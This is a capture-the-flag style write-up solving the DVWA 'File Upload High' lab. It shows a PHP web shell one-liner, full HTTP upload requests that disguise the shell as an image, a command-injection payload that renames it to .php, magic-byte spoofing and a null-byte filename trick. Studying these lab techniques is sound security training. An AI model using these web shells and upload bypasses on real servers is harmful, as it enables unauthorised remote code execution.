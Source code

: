 #+TITLE: DVWA - File Upload High
#+AUTHOR: Leonardo Tamiano

* Description
  In this challenge we increase our checks as follows

  - file extension
  - image size
  - image format

  #+begin_src php
 // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
  #+end_src
  
* Solution

** Embed php payload + File rename
   The first idea is to embedd malicious php code within the PNG
   image, and execute it later with a two step process.

   First we take any image and we embed a malicous backdoor

   #+begin_src php
<?php system($_GET['cmd']); ?>
   #+end_src

   For example the following request uploads a malicious ~image.png~
   containing php code

   #+begin_example
POST /vulnerabilities/upload/ HTTP/1.1
Host: evil
Content-Length: 992
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygf1OyZBiBbqoH3zW
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/upload/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=j1bd6j1ea8u0d7cqavtcq7r5a1; security=low
Connection: close

------WebKitFormBoundarygf1OyZBiBbqoH3zW
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundarygf1OyZBiBbqoH3zW
Content-Disposition: form-data; name="uploaded"; filename="image.png"
Content-Type: image/png

PNG

IMAGE DATA...
<?php system($_GET['cmd']); ?>

------WebKitFormBoundarygf1OyZBiBbqoH3zW
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundarygf1OyZBiBbqoH3zW--

   #+end_example
   
   Afte we upload it we can use other vulnerabilities in the app to
   rename the file from png to php. For example, we can use the
   command injection vulnerability to rename the png file into a php
   file with the following payload

   #+begin_example
|mv ../../hackable/uploads/image.png ../../hackable/uploads/image.php
   #+end_example

   and from this we can access the php shell at the following URL

   http://evil/hackable/uploads/image.php?cmd=whoami  

** Embed php payload + LFI
   Another idea is to combine the file upload bypass with a local file inclusion. In particular

   - We use the file upload bypass to get the malicious php code within the remote web server.

   - We then use the LFI to force the php server to execute that code
     by loading it into the server's memory.
   
** Null byte injection (not working)
   We start off with a simple php backdoor saved onto a file named ~backdoor.php~

   #+begin_src php
<?php system($_GET['cmd']); ?>
   #+end_src   

   we then add at the start the signature of a JPEG file

   #+begin_example
ffd8 ffef 3c3f 7068 7020 7379 7374 656d  ....<?php system
2824 5f47 4554 5b27 636d 6427 5d29 3b20  ($_GET['cmd']); 
3f3e 0a                              
   #+end_example

   and we rename our file to

   #+begin_example
cp backdoor.php backdoor.jpeg
   #+end_example

   and at this with the ~file~ command we have

   #+begin_example
$ file backdoor.jpeg 
backdoor.jpeg: JPEG image data
   #+end_example

   We upload this file aaand it does not work.

   ----------------

   We then try it with another extension, namely the PNG
   extension. All these extensions can be found in the following link

   https://en.wikipedia.org/wiki/List_of_file_signatures

   The PNG extension is formed from the following bytes

   #+begin_example
89 50 4E 47 0D 0A 1A 0A
   #+end_example

   This time we're not able to bypass the ~file~ command

   #+begin_example
$ file backdoor.png 
backdoor.png: data
   #+end_example
   
   However we are able to upload it to the form with the following request

   #+begin_example
POST /vulnerabilities/upload/ HTTP/1.1
Host: evil
Content-Length: 433
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8FrFs9Pwjq8rXIDk
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/upload/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=j1bd6j1ea8u0d7cqavtcq7r5a1; security=high
Connection: close

------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="uploaded"; filename="backdoor.png"
Content-Type: image/png

PNG

<?php system($_GET['cmd']); ?>

------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundary8FrFs9Pwjq8rXIDk--

   #+end_example

   At this point we can try to access the file within the saved path,
   however we quickly see that even if we access the file we're still
   not able to execute it.

   http://evil/hackable/uploads/backdoor.png

   Now, remember how the php code extracts the extension from the file to perform the check

   #+begin_src php
// File information
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

// Is it an image?
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) && ...
   #+end_src
   
   and remember how the php code decides on the final target path

   #+begin_src php
// Where are we going to be writing to?
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
   #+end_src

   The idea is to perform a ~NULL byte injection~ attack so that the
   ~basename~ function sees a file ending with ~.php~, while the ~strrpos~
   function sees the last ~.~ to point to a ~.png~. The request is as follows

   #+begin_example
------WebKitFormBoundary8FrFs9Pwjq8rXIDk
Content-Disposition: form-data; name="uploaded"; filename="backdoor.php%00.jpg"
Content-Type: image/png
   #+end_example

   however this also does not work.


